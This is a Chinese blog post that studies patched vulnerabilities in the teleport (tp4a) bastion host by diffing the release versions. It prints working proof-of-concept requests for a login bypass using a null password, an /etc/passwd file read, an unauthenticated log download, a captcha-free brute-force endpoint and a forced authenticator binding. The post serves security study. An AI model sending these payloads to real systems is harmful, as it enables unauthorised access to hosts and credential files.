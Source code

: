 ```yaml
---
title: "teleport堡垒机审计学习"
date: 2022-09-16T12:00:00+08:00
draft: false
author: "r0fus0d"

---
```


代码审计做的比较少，看到大佬发的分析文章，正好学习下
- https://www.o2oxy.cn/4132.html

<!--more-->

---

访问下载页面 https://tp4a.com/download

更新公告里说明了几个漏洞情况

![](../../img/teleport_case/1.png)

下载 补丁包和原版包，进行对比

## 任意用户登录

![](../../img/teleport_case/2.png)

补丁里对几种登录类型进行了验证，不允许 password 值为 null

可以看下验证登录的函数 login,在 data/www/teleport/webroot/app/model/user.py

![](../../img/teleport_case/7.png)

在 password 为null 的时候就跳过了验证

poc
```
抓包，把密码改为 null 即可
      {
          "type":2,
          "username":"admin",
          "password":null,
          "captcha":"rhcl",
          "oath":"",
          "remember":false
      }
```

顺便可以看下在 tp-const.js 里的几种登录类型的定义

![](../../img/teleport_case/6.png)

这里 type 为 2 就是 TP_LOGIN_AUTH_USERNAME_PASSWORD_CAPTCHA 也就是 用户名+密码+验证码 类型

---

## 后台文件下载

![](../../img/teleport_case/3.png)

修复补丁给 DoGetFileHandler 函数加上了一个限制，仅允许读取

找下路由

![](../../img/teleport_case/8.png)

验证了权限，所以是后台洞

![](../../img/teleport_case/9.png)

poc
```
/audit/get-file?f=/etc/passwd&rid=1&type=rdp&act=read&amp;offset=0
```

---

## 前台日志下载

这时我发现升级描述里还有一句 `修正：经过特别构造的请求，无需登录即可读取TP系统操作日志；` ,这个洞应该也是未授权的.

下载 teleport-server-linux-x64-3.6.4-b3.tar.gz 和 3.6.3 对比下

![](../../img/teleport_case/4.png)

果然，补丁给 DoGetLogsHandler 这个函数加上了权限验证,看下他的路由

![](../../img/teleport_case/5.png)

poc
```
    POST http://xxx.xxx.xxx.xxx/system/get-logs HTTP/1.1
    Host: xxx.xxx.xxx.xxx
    Content-Length: 162
    Content-Type: application/x-www-form-urlencoded;
    Connection: close

    args=%7B%22filter%22%3A%7B%7D%2C%22order%22%3A%7B%22k%22%3A%22log_time%22%2C%22v%22%3Afalse%7D%2C%22limit%22%3A%7B%22page_index%22%3A0%2C%22per_page%22%3A25%7D%7D
```

---

## 绕过验证码爆破

继续看路由，发现BindOathHandler这个函数也不需要鉴权，这个路由下还存在登陆点且无需验证码

poc
```
/user/bind-oath
```

```
POST /user/verify-user HTTP/1.1
Host: xx.xx.xx.xx
Content-Length: 102
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: _sid=tp_1663328293_17c56ddafdb179f0
Connection: close

args=%7B%22username%22%3A%22admin%22%2C%22password%22%3A%22123456%22%2C%22check_bind_oath%22%3Atrue%7D
```

不过注意,默认口令启用强密码策略，要求密码至少8位，必须包含大写字母、小写字母以及数字

---

## 强行绑定身份验证器

同样是BindOathHandler这个函数,看了下他返回user/bind-oath.mako的模版，模版里向/user/verify-user 发送认证请求，通过路由定位到函数DoVerifyUserHandler

![](../../img/teleport_case/10.png)

可以看到，这里也是用 user.login 函数认证的，所以 password 直接用 null 就可以绕过了

poc
```
POST http://xx.xx.xx.xx/user/verify-user HTTP/1.1
Host: xx.xx.xx.xx
Content-Length: 94
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: _sid=tp_1663328293_17c56ddafdb179f0
Connection: close

args=%7B%22username%22%3A%22admin%22%2C%22password%22%3Anull%2C%22check_bind_oath%22%3Atrue%7D
```

![](../../img/teleport_case/11.png)

同样，下一个包也设为 null 即可

这洞没啥用，可以用于恶心管理员 😝

---

## 一些思考

1. 根据这个权限验证代码的存在与否可以找前台未授权的点，那么能不能实现自动找未授权页面？
2. 几个权限绕过本质上是 login 函数的问题，可以根据login函数调用点找漏洞触发点
